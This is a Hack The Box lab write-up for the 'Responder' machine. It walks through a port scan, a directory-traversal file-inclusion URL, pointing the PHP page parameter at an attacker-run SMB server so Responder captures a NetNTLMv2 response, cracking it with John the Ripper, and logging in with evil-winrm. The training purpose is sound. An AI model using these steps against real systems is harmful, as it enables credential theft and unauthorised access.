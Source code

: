 # Responder

#### Difficulty: <code>Very Easy</code>

#### Machine Tags
  WinRM  
  Custom Applications  
  Protocols  
  XAMPP  
  SMB  
  Responder  
  PHP  
  Reconnaissance  
  Password Cracking  
  Hash Capture  
  Remote File Inclusion  
  Remote Code Execution  

#### Description
  Learn about File Inclusion vulnerability for webpages served on Windows machines with NetNTLMv2. Responder and John the Ripper will be used. 

#### **Enumeration**
  The normal methods of enumeration are not working, so it seems that we are going to have to scan all ports. What is helpful for situations like this is to set a minimum number of packets that nmap can send per second. 
  ```
    nmap -p- --min-rate {rate_limit} -sV {IP}
  ```
  The services open are:  
  ```
    80/tcp:   http
    5985/tcp: wsman
    7680/tcp: pando-pub
  ```
#### **Windows Remote Management**
  WinRM or Windows Remote Management is a built-in remote management protocol using Simple Object Access Protocol to interact with remote computers and servers. If this service is running, if we can find the credentials with remote management privileges, a user would be able to get Powershell on the host. 

#### **Website Enumeration**
  In some cases, even typing in the IP of the service will not return the web application. The interesting part is after putting the target IP into a browser, we are still unable to connect to any resource. However, the URL changes to http://unika.htb/. 

#### **Name-Based Virtual Hosting**
  A method for hosting multiple dommain names on a single server. This method allows a server to share computing resources without all services to be used by the same hostname. The web server relies on its /etc/hosts file to resolve hostnames into an IP address. Hence, for us to resolve the address, an entry needs to be appended to this file. An example for the command to do this is:
  ```
    echo "{IP}    {hostname}" | sudo tee -a /etc/hosts/
  ```
  Now, the address will resolve to unika.htb allowing the browser to include HTTP header <code>Host: unika.htb</code> in every request sent to the IP address. 

#### **Finding more Information**
  Using Wappalyzer we would be able to find more about about this webpage. 
  ```
  Font Scripts:          Font Awesome, Google Font, API                 Web server Extensions: OpenSSL
  Web Servers:           Apache                                         JavaScript Libraries:  jQuery, OWL Carousel, Isotope
  Programming Languages: PHP                                            UI Frameworks:         Bootstrap, Animate.css
  OS:                    Windows Server
  ```
  Additionally, trying to look at the other tabs of the website we see that there is the option for viewing the website in French. When we do this, we see that the link updates to unika.htb/index.php?=french.html. This is a hint that the website could be vulnerable to Local File Inclusion (LFI). 

#### **File Inclusion Vulnerability**
  Local File Inclusion (LFI) happens when an attacker is able to get a website to include a file that is not intended to be an option for this application. For example, if an app uses path to a file as input without checking then the exploit would be to use '../' until sensitive files are leaked. Somtimes, LFI can lead to code execution. 

  Remote File Inclusion (RFI) similar to LFI but loads a remote file on host using a protocol like HTTP or FTP. The <code>page</code> parameter can be used to see if we can include files on the target. The <code>../</code> string is used to traverse back a directory.

  An example URL file inclusion would look like:
  ```
    Base URL:  http://unika.htb/index.php?
    Parameter: page=../../../../../../../../windows/system32/drivers/etc/hosts

    URL: http://{url}/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
  ```
  Without the proper sanitization, some method processes the URL <code>page</code> parameter can be used to pass malicious input to view internal system files. 

#### **Responder Challenge Capture**
  New Technology Lan Manager (NTLM) is a collection of authenticaion protocols created by Microsoft. Which is a challenge-response authentication protocol to authenticate a client to a response on an AD domain. 
  
  It is a type of single sign-on (SSO) to allow user to provide underlying authentication factor only once when logging on. The NTLM authentication process is done: 

  &emsp;1. Client sends username and domain name to server  
  &emsp;2. Server generates random character string, the challenge  
  &emsp;3. Client encrypts the challenge with NTLM hash of user password and sends back to the server  
  &emsp;4. Server retrieves the user password (or equivalent)  
  &emsp;5. Server uses hash value retrieved from security account database to encrypt the challenge string, then value is compared to value received from the client. If they match then client is authenticated.

#### **NTLM vs NTHash vs NetNTMLv2**
  ***Hash Function***: a one-way function that takes any amount of data and returns fixed size value. Referred to as *hash, digest, or fingerprint*. Used for storing passwords more securely since there's no way to convert hash back to original data. Server can store hash of password and compare to input. 

  ***NTHash***: output of the algorithm used to store passwords on Windows systems in the SAM database and on domain controllers. An NTHash or NTLM hash 

  NTLM protocol does authentication over network using a challenge-response model. NetNTLMv2 challenge-response is a string formatted to include the challenge and response, often referred to as NetNTLMv2 hash but it is **not**. 

#### **Using Responder**
  The PHP configuration file <code>php.ini</code>, the <code>allow_url_include</code> wrapper is set to Off. This means PHP does not load remote HTTP or FTP URLs to prevent RFI attacks. 

  *Even if <code>allow_url_include</code> and <code>allow_url_fopen</code> are off, PHP doesn't prevent loading SMB URLs*

  Using Responder, we will setup malicious SMB server for the target to perform NTLM authentication to it. Responder will send a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and encrypted response to generate the NetNTLMv2. The NetNTLMv2 is irreversible, but we can then use John The Ripper to generate hashes to compare it against. 

  If there is a <code>port 80</code> error, turn off the HTTP flag in the Responder.conf (thats what happened to me). 

  When the config file for Responder is done, we can execute the script in Python. Passing in the interface to list on the <code>-I</code> flag. 
  ```
    Python3
    sudo python3 Responder.py -I tun0

    With Kali or HTB PwnBox
    sudo responder -I {network interface}
  ```

  To include a resource from our SMB server using the <code>page</code> parameter:
  ```
    http://{url}/?page=//{smb_ip}/somefile
  ```
  Make sure to include the http:// since some browsers might just Google it. It would give us a permission denied page. However Responder would have:

  ![Responder Output Hash](/HackTheBox/Basics%20of%20Penetration%20Testing/You%20Need%20to%20Walk%20Before%20You%20Can%20Run/Responder/assets/responder_output.png)

#### **Hash Cracking**
  To commence hash crackingh, we take the NTMLv2-SSP Hash, we can plug into the password hash-cracking utility. Using <code>john</code> the flag <code>-w</code> can specify a wordlist to use for cracking. So an example cmd for John the Ripper would look like:
  ```
    john -w={filepath_wordlist} {file_w_hash}
  ```
  ![Hash Cracking Response](/HackTheBox/Basics%20of%20Penetration%20Testing/You%20Need%20to%20Walk%20Before%20You%20Can%20Run/Responder/assets/hash_crack.png)

#### **WinRM**
  For instances that need PowerShell, we will use a tool called Evil-WinRM. To login over it, a command like the following is used:
  ```
    evil-winrm -i {IP} -u {username} -p {password}
  ```